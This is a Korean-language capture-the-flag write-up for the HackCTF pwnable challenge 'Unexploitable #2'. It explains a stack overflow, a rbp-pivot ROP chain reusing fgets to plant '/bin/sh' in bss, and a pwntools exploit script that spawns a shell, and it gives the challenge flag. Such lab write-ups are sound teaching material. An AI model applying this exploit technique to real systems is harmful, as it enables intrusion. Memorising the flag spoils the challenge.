






# _Unexploitable #2_

**Category:** _Pwnable_

**Source:** _HackCTF_

**Points:** _400_

**Author:** _galaxy(김경환)_

**Description:** 

> 

## Write-up



PartialRELRO와 NX만 적용이 되어있습니다. canary가 없는걸보니 overflow가 가능할 듯 합니다.

우선 main을 분석했습니다.(ida화면 있으면 좋긋다...)



간략하게 main의 기능을 설명하자면 fwrite로 stdout에 "Hard RTL ha? You don't even have fflush@dynstr!\n"을 출력합니다.

그 후 fgets로 입력을 받는데 64만큼 받으면서 overflow가 발생합니다.

다른 함수로는 gift함수가 주어집니다.

system()이 있고 system안에는 "use this system gadget :D"이 있습니다.

system이 있으니 "/bin/sh"만 입력해서 호출하면 됩니다. 

bof가 가능하니 ROP로 생각했습니다.

exploit시나리오는 다음과 같습니다.

gadget을 사용해서 fgets의 인자를 알맞게 넣어주서 "/bin/sh" 입력

pop_rdi_ret gadget을 사용해서 system을 호출할때 앞에서 입력해준 "/bin/sh"를 사용합니다.

"/bin/sh"를 입력해주기 위해 가능한 함수로 fgets가 있습니다. 

하지만 fets에는 rdi, rsi, rdx, rcx 4개의 레지스터를 조작해야 합니다.

ROPgadget으로 찾아보니 rdx와 rcx를 조작해줄 gadget이 없었습니다. 


ROP로 완전히 다시 작성할 수 없어서 기존에 있던 fgets를 재활용 했습니다.



fgets인자 중에서 우리는 입력한곳이 들어갈 buffer만 바꿔주면 됩니다. 

이 buffer는 rdi에 있는데 rbp_0x10의 위치가 들어갑니다. 

따라서 우리는 rbp를 수정해 줘야합니다.

다행히 pop rbp에 대한 gadget이 있어서 사용했습니다.

payload를 dummy(0x18) + pop_rbp_ret + bss_address + main+98(fgets) + pop_rdi_ret + bss_address + gift+14(system) 으로 작성하였습니다.

이 때 2가지 문제점이 생겼는데

첫번째는 fgets에서 64byte만큼만 입력을 받는데 위의 payload는 72byte입니다.

하지만 이문제는 자연스레 해결되었습니다.

두번째 문제는 fgets를 사용 후 main epilogue에서 leave를 할때 rbp가 수정이 됩니다.

이때 우리가 rbp를 수정 했기 때문에 stack pointer가 바뀌어서 뒤의 payload를 사용할 수 없게 되었습니다.



leave전 rbp와 rsp입니다.



leave후 rbp와 rsp입니다.

이렇게 rsp가 바뀌게 됩니다. 바뀌는 포인터를 보면 "/bin/sh"입력한 곳 16byte 뒤입니다. 

적용할 수 없던 후반부 payload를 새로운 stack에 올리기 위해 fgets로 "/bin/sh"를 입력할 때 추가로 payload도 같이 올려주었습니다.

"/bin/sh" + dummy(16) + pop_rdi_ret + bss_address + gift+14(system)으로 입력해 주었습니다.

아래는 python script입니다.

```python
from pwn import *

if __debug__:
	script='''b* main+117
	c
	'''
	p=gdb.debug('./Unexploitable_2',script)
	#p=process('./Unexploitable_2')
else:
	p=remote('ctf.j0n9hyun.xyz','3029')


rbp_ret=p64(0x4005e0)
rdi_ret=p64(0x400773)
system_addr=p64(0x400684)
fgets=p64(0x4006ee)
data=p64(0x601940)
data10=p64(0x601950)
sh=p64(0x4007dd)

payload='a'*0x18+rbp_ret+data10+fgets

p.recvline()
p.sendline(payload)
p.sendline('/bin/sh\x00'+'\x00'*16+rdi_ret+data+system_addr+'\x00'*100)

p.interactive()
p.close()
```

bss영역을 처음에는 0x601040으로 잡았는데 system을 호출할 때 error가 났습니다. writeup을 참조하니 system은 stack을 많이 사용한다고 해서 공간이 많은 곳을 잡아줘야 한다고 해서 bss영역을 +0x900으로 바꿔주었습니다.
아직 이부분에 대해서는 이해가 안되어서 공부를해야하지싶습니다....


Flag : HackCTF{u5e_syst3m_t0_get_le4k}
